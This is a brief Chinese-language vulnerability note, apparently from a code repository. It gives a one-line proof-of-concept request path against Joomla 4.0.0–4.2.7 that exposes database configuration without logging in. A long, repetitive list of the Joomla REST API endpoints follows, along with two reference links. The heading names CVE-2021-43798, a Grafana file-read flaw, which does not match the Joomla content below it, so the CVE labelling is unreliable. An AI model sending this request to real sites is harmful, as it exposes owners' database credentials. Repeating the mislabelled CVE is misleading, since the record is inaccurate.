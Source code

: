 # CVE-2021-43798 Grafana任意文件读取漏洞

版本:`4.0.0 <= Joomla <= 4.2.7`  
POC:  `/api/index.php/v1/config/application?public=true`  可以看见一些数据库配置的信息。


## API清单：
**/api/index.php/v1/config/application?public=true**
v1/banners
v1/banners/:id
v1/banners
v1/banners/:id
v1/banners/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients
v1/banners/clients/:id
v1/banners/clients/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories
v1/banners/categories/:id
v1/banners/categories/:id
v1/banners/:id/contenthistory
v1/banners/:id/contenthistory/keep
v1/banners/:id/contenthistory
v1/config/application
v1/config/application
v1/config/:component_name
v1/config/:component_name
v1/contacts/form/:id
v1/contacts
v1/contacts/:id
v1/contacts
v1/contacts/:id
v1/contacts/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories
v1/contacts/categories/:id
v1/contacts/categories/:id
v1/fields/contacts/contact
v1/fields/contacts/contact/:id
v1/fields/contacts/contact
v1/fields/contacts/contact/:id
v1/fields/contacts/contact/:id
v1/fields/contacts/mail
v1/fields/contacts/mail/:id
v1/fields/contacts/mail
v1/fields/contacts/mail/:id
v1/fields/contacts/mail/:id
v1/fields/contacts/categories
v1/fields/contacts/categories/:id
v1/fields/contacts/categories
v1/fields/contacts/categories/:id
v1/fields/contacts/categories/:id
v1/fields/groups/contacts/contact
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/contact
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/contact/:id
v1/fields/groups/contacts/mail
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/mail
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/mail/:id
v1/fields/groups/contacts/categories
v1/fields/groups/contacts/categories/:id
v1/fields/groups/contacts/categories
v1/fields/groups/contacts/categories/:id
v1/fields/groups/contacts/categories/:id
v1/contacts/:id/contenthistory
v1/contacts/:id/contenthistory/keep
v1/contacts/:id/contenthistory
v1/content/articles
v1/content/articles/:id
v1/content/articles
v1/content/articles/:id
v1/content/articles/:id
v1/content/categories
v1/content/categories/:id
v1/content/categories
v1/content/categories/:id
v1/content/categories/:id
v1/fields/content/articles
v1/fields/content/articles/:id
v1/fields/content/articles
v1/fields/content/articles/:id
v1/fields/content/articles/:id
v1/fields/content/categories
v1/fields/content/categories/:id
v1/fields/content/categories
v1/fields/content/categories/:id
v1/fields/content/categories/:id
v1/fields/groups/content/articles
v1/fields/groups/content/articles/:id
v1/fields/groups/content/articles
v1/fields/groups/content/articles/:id
v1/fields/groups/content/articles/:id
v1/fields/groups/content/categories
v1/fields/groups/content/categories/:id
v1/fields/groups/content/categories
v1/fields/groups/content/categories/:id
v1/fields/groups/content/categories/:id
v1/content/articles/:id/contenthistory
v1/content/articles/:id/contenthistory/keep
v1/content/articles/:id/contenthistory
v1/extensions
v1/languages/content
v1/languages/content/:id
v1/languages/content
v1/languages/content/:id
v1/languages/content/:id
v1/languages/overrides/search
v1/languages/overrides/search/cache/refresh
v1/languages/overrides/site/zh-CN
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/site/zh-CN
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/site/zh-CN/:id
v1/languages/overrides/administrator/zh-CN
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/administrator/zh-CN
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/administrator/zh-CN/:id
v1/languages/overrides/site/en-GB
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/site/en-GB
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/site/en-GB/:id
v1/languages/overrides/administrator/en-GB
v1/languages/overrides/administrator/en-GB/:id
v1/languages/overrides/administrator/en-GB
v1/languages/overrides/administrator/en-GB/:id
v1/languages/overrides/administrator/en-GB/:id
v1/languages
v1/languages
v1/media/adapters
v1/media/adapters/:id
v1/media/files
v1/media/files/:path/
v1/media/files/:path
v1/media/files
v1/media/files/:path
v1/media/files/:path
v1/menus/site
v1/menus/site/:id
v1/menus/site
v1/menus/site/:id
v1/menus/site/:id
v1/menus/administrator
v1/menus/administrator/:id
v1/menus/administrator
v1/menus/administrator/:id
v1/menus/administrator/:id
v1/menus/site/items
v1/menus/site/items/:id
v1/menus/site/items
v1/menus/site/items/:id
v1/menus/site/items/:id
v1/menus/administrator/items
v1/menus/administrator/items/:id
v1/menus/administrator/items
v1/menus/administrator/items/:id
v1/menus/administrator/items/:id
v1/menus/site/items/types
v1/menus/administrator/items/types
v1/messages
v1/messages/:id
v1/messages
v1/messages/:id
v1/messages/:id
v1/modules/types/site
v1/modules/types/administrator
v1/modules/site
v1/modules/site/:id
v1/modules/site
v1/modules/site/:id
v1/modules/site/:id
v1/modules/administrator
v1/modules/administrator/:id
v1/modules/administrator
v1/modules/administrator/:id
v1/modules/administrator/:id
v1/newsfeeds/feeds
v1/newsfeeds/feeds/:id
v1/newsfeeds/feeds
v1/newsfeeds/feeds/:id
v1/newsfeeds/feeds/:id
v1/newsfeeds/categories
v1/newsfeeds/categories/:id
v1/newsfeeds/categories
v1/newsfeeds/categories/:id
v1/newsfeeds/categories/:id
v1/plugins
v1/plugins/:id
v1/plugins/:id
v1/privacy/requests
v1/privacy/requests/:id
v1/privacy/requests/export/:id
v1/privacy/requests
v1/privacy/consents
v1/privacy/consents/:id
v1/privacy/consents/:id
v1/redirects
v1/redirects/:id
v1/redirects
v1/redirects/:id
v1/redirects/:id
v1/tags
v1/tags/:id
v1/tags
v1/tags/:id
v1/tags/:id
v1/templates/styles/site
v1/templates/styles/site/:id
v1/templates/styles/site
v1/templates/styles/site/:id
v1/templates/styles/site/:id
v1/templates/styles/administrator
v1/templates/styles/administrator/:id
v1/templates/styles/administrator
v1/templates/styles/administrator/:id
v1/templates/styles/administrator/:id
v1/users
v1/users/:id
v1/users
v1/users/:id
v1/users/:id
v1/fields/users
v1/fields/users/:id
v1/fields/users
v1/fields/users/:id
v1/fields/users/:id
v1/fields/groups/users
v1/fields/groups/users/:id
v1/fields/groups/users
v1/fields/groups/users/:id
v1/fields/groups/users/:id
v1/users/groups
v1/users/groups/:id
v1/users/groups
v1/users/groups/:id
v1/users/groups/:id
v1/users/levels
v1/users/levels/:id
v1/users/levels
v1/users/levels/:id
v1/users/levels/:id




## 更多文献：
'''
https://xz.aliyun.com/news/11621?time__1311=eqUxuQDtDQitGQe4GXcjDAg2D905qDcQ7%3DYD&u_atoken=ed5bcaf207297bbcfea969345d877e7f&u_asig=ac11000117428066117023167e004d  

https://www.freebuf.com/vuls/358593.html

'''